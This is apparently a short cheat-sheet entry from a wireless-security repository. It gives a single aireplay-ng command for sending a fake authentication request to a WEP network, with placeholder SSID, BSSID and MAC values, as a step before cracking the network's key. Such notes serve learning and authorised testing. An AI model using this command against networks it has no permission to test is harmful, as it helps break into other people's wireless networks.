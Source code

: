 # Fake Authentication Attack

Before cracking WEP, you may need to authenticate with the network using a fake request.

## Commands

#### 1) Sends a fake authentication request

    aireplay-ng -1 0 -e SSID -a BSSID -h MAC wlan0mon

You send a fake authentication request to the network to start capturing packets.
